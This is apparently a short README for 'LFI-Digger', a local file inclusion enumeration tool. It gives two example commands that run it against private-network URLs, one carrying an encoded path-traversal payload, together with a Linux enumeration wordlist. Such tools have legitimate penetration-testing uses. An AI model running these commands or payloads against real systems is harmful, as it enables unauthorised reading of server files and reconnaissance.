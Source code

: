 # LFI-Digger

Usage example:
python lfidigger.py "http://10.17.0.11/lfi_vulnerable.php?lfiparam=%2f..%2f..%2fLFI" ./dics/linux_enum.txt
python lfidigger.py http://10.17.0.30/page.php?c=LFI ./dics/linux_enum.txt
